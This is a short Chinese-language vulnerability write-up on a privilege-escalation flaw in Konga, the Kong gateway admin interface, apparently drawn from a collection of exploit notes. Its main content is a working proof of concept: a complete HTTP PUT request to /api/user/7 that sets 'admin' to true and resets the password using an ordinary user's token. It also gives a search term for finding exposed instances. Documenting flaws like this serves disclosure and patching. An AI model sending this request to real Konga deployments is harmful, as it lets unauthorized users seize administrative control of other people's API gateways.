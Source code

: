 # Konga 普通用户越权获取管理员权限漏洞

# Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

```
Konga
```

## 网络测绘

```
"konga"
```

## 漏洞复现

登录页面



![image-20220210184626593](/images/202202101846658.png)

创建非管理员用户后登录并获取token



![](/images/202202101847245.png)



发送请求包, 将token修改为刚刚获取的



```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```



![](/images/202202101847809.png)



成功转为管理员用户



![](/images/202202101847129.png)

